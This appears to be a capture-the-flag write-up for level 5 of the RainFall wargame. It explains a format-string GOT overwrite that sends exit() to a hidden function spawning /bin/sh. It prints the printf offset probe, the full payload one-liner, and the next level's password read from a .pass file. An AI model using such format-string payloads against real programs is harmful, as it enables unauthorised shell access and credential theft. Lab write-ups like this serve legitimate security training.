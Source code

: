 # level 5

In this level, we will use a GOT (global offset table) overwrite exploit

While watching the asm code, we found that there is a function `n` called by the main and a function `o` don't called which is doing a system("/bin/sh")

According to the [gdb explains](gdbwriteup.md), we found the address of the `exit` and the address of the `o` function

-------------------------
| call    | address    |
|---------|------------|
| exit    | 0x8049838  |
| /bin/sh | 0x80485f0  |
|    o    | 0x080484a4 |
-----------------------
This time, program is also calling a printf, let's see where our content will be written
```bash
level5@RainFall:~$ python -c "print('BBBB' + ' %p ' * 8)" | ./level5 
BBBB 0x200  0xb7fd1ac0  0xb7ff37d0  0x42424242  0x20702520  0x20702520  0x20702520  0x20702520
```
0x42424242 is present in the 4th address

Now, we will modify the adress of `exit` by the address of `o` to execute /bin/sh

```bash
(python -c 'print("\x38\x98\x04\x08" + "%134513824c%4$n")'; cat)  | ./level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

